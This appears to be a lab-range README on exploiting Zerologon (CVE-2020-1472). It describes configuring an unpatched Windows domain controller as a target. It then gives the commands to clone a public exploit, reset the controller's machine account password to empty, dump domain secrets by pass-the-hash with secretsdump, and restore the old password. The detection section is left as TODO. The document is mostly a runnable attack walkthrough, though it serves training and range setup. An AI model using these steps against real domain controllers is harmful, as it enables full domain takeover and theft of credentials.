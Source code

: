 # Zerologon (CVE-2020-1472)
## Summary

This vulnerability stems from a flaw in a cryptographic authentication scheme used by the Netlogon Remote Protocol, which among other things can be used to update computer passwords. This flaw allows attackers to impersonate any computer, including the domain controller itself, and execute remote procedure calls on their behalf. 

## Prerequisites

This exploit requires at least one DC to be set up and configured. The DC *must* not have the patch, i.e. install the DC from before August 11th, 2020. **Windows Server 2008 R2 SP1** requires an ESU license for the patch to apply, which is atypical, making this version the ideal target for configuring a range with this vulnerability.

## Setup

If the prerequisites have been met, then any Zerologon exploit should work out of the box.

## Execution

### Method 1 - Changing DC's Machine Account Password

Clone the repository at https://github.com/risksense/zerologon, by either downloading the zip file or running the following command:

```bash
git clone https://github.com/risksense/zerologon
```

If there are any issues, update or reinstall impacket. Then, in the same directory as the cloned repository, run the following command:

```bash
python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR
```

Then, the DC's machine accounts hash is set to `31d6cfe0d16ae931b73c59d7e0c089c0`, and the old hash should be printed to the screen, note this for later. This can be used with impacket's pass-the-hash functionality. I.e. dumping secret:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```

To reinstall the old machine password, run the following command:

```bash
python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH
```

#### Indicators of Compromise

TODO
